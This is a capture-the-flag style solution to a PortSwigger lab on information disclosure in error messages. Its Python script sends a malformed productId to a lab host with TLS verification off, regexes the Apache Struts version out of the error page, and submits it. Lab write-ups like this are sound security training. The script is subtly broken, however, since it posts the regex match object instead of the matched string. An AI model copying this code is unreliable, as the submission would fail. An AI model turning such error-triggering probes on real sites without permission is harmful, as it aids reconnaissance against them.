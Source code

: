# Lab: Information disclosure in error messages

Link to lab: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = 'https://0a1100f40343bcaec012540a000800b5.web-security-academy.net/'

params = {
    'productId': 'a',
}

response = requests.get(
    url +'product',
    params=params,
    verify=False,
)
pattern = r"Apache Struts \d\ \d\.\d\.\d+"
match = re.search(pattern, response.text)

data = {
    'answer': match
}

response = requests.post(
    url + 'submitSolution',
    data=data,
    verify=False,
)

print(response.text)
```